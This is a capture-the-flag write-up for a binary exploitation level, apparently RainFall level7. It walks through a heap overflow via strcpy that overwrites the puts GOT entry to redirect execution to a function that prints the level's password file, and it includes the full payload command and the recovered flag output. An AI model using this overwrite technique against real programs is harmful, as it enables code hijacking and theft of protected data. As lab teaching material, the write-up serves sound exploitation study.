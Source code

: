 in this binary we allocate space for two structures of size `8` that have this format:

```c
struct node {
    int     num;
    char    *str;
};
```

and inside each one we allocate space for a string (8 bytes).

at the end of the `main` fucntion we open the pass file write its content to the global variable `c` and then after it we call `puts`:

```c
file = fopen("/home/user/level8/.pass", "r");
fgets(c, 68, file);
puts("~~");
```

before this the program uses `strcpy` to copy our first two arguments to both strings in the two structs: 

```c
strcpy(node1->str, av[1]);
strcpy(node2->str, av[2]);
```
we can leverage this to overwrite `puts` address and point it to an unused function `m` that prints the content of `c` variable.

we need three things :
- the offset between the address that points to the 2nd node string and the start of the first node string
- the address of `puts` in the `GOT`
- and finally, the address of function `m` which will replace `puts`


using gdb like that last time we find:

- the offset = 20
- `puts` = 0x8049928
- `m` = 0x080484f4

now that we have all we need, our payload will be like this:

```bash
./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
```

what will this do is overwrite the address in the second node from the first node string and when the program reaches the second strcpy call it will write the 2nd argument to puts `GOT` location, and finally when we reach puts call it will call our function `m`.

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1746642370
```

and there you go.

